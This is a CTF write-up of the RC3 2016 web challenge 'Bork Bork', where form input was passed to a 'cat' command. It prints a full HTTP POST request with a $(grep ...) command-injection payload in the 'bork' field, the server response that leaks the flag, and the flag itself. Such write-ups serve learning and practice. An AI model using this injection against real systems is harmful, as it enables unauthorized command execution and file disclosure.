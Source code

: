 ```yaml
---
layout: post
title: "RC3 CTF : Bork Bork"
author: dade
date: 2016-11-20 13:37:37 -0700
slug: bork-bork
category:
- 2016
- rc3ctf
---
```

**Category:** Web

**Points:** 300

**Description:**

```
UPDATE: We have made changes to this challenge to make it (somewhat) stable. If what you were trying before is not working, it's because it was causing a problem for us on the back end. I assure you that what you were doing was not the easiest solution, anyway.

We all love doggos and puppers. Have some more of one of our favorite puppers, Gabe. Bork.

https://ctf.rc3.club:3100/

author:orkulus
```

# Investigation

If you post to /bork and try to grab a random file, say, flag.txt, it prints out an error

```
cat: borks/flag.txt: No such file or directory?autoplay=1&loop=1
```

This means it's taking our input and passing it to "cat". Can we abuse this to disclose other files? What about chain commands for command injection? It looks like when we try to do something not allowed we get presented with an error page

```
TFW You Can't Pet Gabe
https://www.youtube.com/embed/3gEWROxlw4o
```

After some more testing, I found that some commands could be injected while others were being filtered. **Note:** In an effort to increase stability, eventually even $ methods of injection were filtered out, making my solution incorrect. Doesn't matter, had flag.

However, I was able to succeed by passing the following:

```
POST https://ctf.rc3.club:3100/bork HTTP/1.1
Host: ctf.rc3.club:3100
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://ctf.rc3.club:3100/
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

bork=$(grep -r '.' -e "RC3")
```

Which returned:

```
HTTP/1.1 200 OK
Server: nginx/1.10.0 (Ubuntu)
Date: Sat, 19 Nov 2016 22:20:50 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
Content-Length: 416

<!DOCTYPE html>
<html>
    <head>
        <link rel="stylesheet" type="text/css" href="/static/bork.css">
        <link rel="shortcut icon" href="/static/favicon.ico">
    </head>
    <body>
        <h1>HERE'S YOUR BORK!!!!</h1>
        <iframe width="854" height="480" src="cat: &#39;borks/./bork.txt:RC3-2016-L057d0g3&#39;: No such file or directory?autoplay=1&loop=1" frameborder="0"></iframe>
    </body>
</html>
```


That looks like a flag to me!

# Flag
**RC3-2016-L057d0g3**

